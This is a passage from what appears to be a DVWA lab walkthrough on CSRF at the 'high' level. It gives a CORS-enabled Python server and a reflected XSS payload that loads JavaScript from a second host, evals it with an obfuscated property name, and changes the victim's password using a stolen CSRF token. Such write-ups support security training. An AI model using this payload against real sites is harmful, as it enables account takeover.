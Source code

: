 ```python
#!/usr/bin/env python3

from http.server import HTTPServer, SimpleHTTPRequestHandler, test
import sys

class CORSRequestHandler (SimpleHTTPRequestHandler):
    def end_headers (self):
        self.send_header('Access-Control-Allow-Origin', '*')
        SimpleHTTPRequestHandler.end_headers(self)

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer, port=int(sys.argv[1]) if len(sys.argv) > 1 else 8000)
```

We save that in `high-cors-server.py` and then execute it as follows

```shell
python3 high-cors-server.py
```

Once we have that running, we can use the following payload on the high reflected XSS challenge page of DVWA

```html
<img src='#' onerror="var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://localhost:8000/high.js', false); xhr.onload = function () {eval(this[atob('cmVzcG9uc2VUZXh0')])}; xhr.send(null); " />
```

This payload is encoded into the following GET request.

```ini
http://localhost/DVWA/vulnerabilities/xss_r/?name=%3Cimg+src%3D%27%23%27+onerror%3D%22var+xhr+%3D+new+XMLHttpRequest%28%29%3B+xhr.open%28%27GET%27%2C+%27http%3A%2F%2Flocalhost%3A8000%2Fhigh.js%27%2C+false%29%3B+xhr.onload+%3D+function+%28%29+%7Beval%28this%5Batob%28%27cmVzcG9uc2VUZXh0%27%29%5D%29%7D%3B+xhr.send%28null%29%3B+%22+%2F%3E
```

by changing the `newpass` of the `high.js` script, we will control the password of the authenticated user who clicks on the previous link. In particular, when the user clicks on the link, the following things will happen:

- The reflective XSS on the DVWA page is triggered, executing the malicious js within the victim browser.
- The malicious js does a GET to the endpoint [http://localhost:8000/high.js](http://localhost:8000/high.js) and performs an `eval` on the obtained text from the server.
- The javascript code loaded performs two GETs. One to obtian the CSRF code from the DVWA change password page, and the second to set a new password using the previous CSRF token.
- As soon as the second GET hits the server, the password of the user is changed by the server.

{% hint style="warning" %} Using two XSS requests we can redirect user to the same origin of name server and we can't be sure that request is valid. {% endhint %}

## Impossible

[](https://github.com/dev-angelist/Writeups-and-Walkthroughs/blob/main/dvwa/csrf.md#impossible)
